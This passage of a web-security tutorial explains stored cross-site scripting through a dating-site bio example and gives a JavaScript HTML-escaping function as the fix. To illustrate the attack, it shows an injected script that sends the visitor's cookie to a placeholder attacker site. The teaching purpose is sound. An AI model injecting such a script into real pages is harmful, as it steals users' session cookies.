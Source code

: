 The kind of vulnerability this prevents is often called a Cross-Site Scripting (XSS) attack, a term that is [broadly used](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#introduction) to mean the injection of any unexpected content into your webpage. Typically, an attacker uses your APIs to store malicious code in your database, which you then serve to your other users who request that info.

For example, let's say you're building a dating site, and it lets users share a little bio about themselves. You'd render that bio like this, with `{{ user.bio }}` being the bio stored in the database:

```html
<p class=bio>
{{ user.bio }}
</p>
```

If a malicious user wrote a bio with a script element in it—like one that sends the client's cookie to another website—then this HTML will get sent to every user who views that bio:

```html
<p class=bio>
<script>
  fetch('evilwebsite.com', { method: 'POST', body: document.cookie })
</script>
</p>
```

Fortunately this one is so easy to fix that you can write the code yourself. Whenever you insert untrusted (i.e. user-provided) data, you just have to replace eight characters with their non-code equivalents. This is an example using JavaScript:

```js
/**
 * Replace any characters that could be used to inject a malicious script in an HTML context.
 */
export function escapeHtmlText (value) {
  const stringValue = value.toString()
  const entityMap = {
    '&': '&amp;',
    '<': '&lt;',
    '>': '&gt;',
    '"': '&quot;',
    "'": '&#x27;',
    '/': '&#x2F;',
    '`': '&grave;',
    '=': '&#x3D;'
  }

  // Match any of the characters inside /[ ... ]/
  const regex = /[&<>"'`=/]/g
  return stringValue.replace(regex, match => entityMap[match])
}
```

This tiny JS function replaces `<` with `&lt;`, `"` with `&quot;`, and so on. These characters will still render properly as `<` and `"` when they're used in the text, but can't be interpreted as code constructs. The previous malicious bio will now be converted into the following HTML:
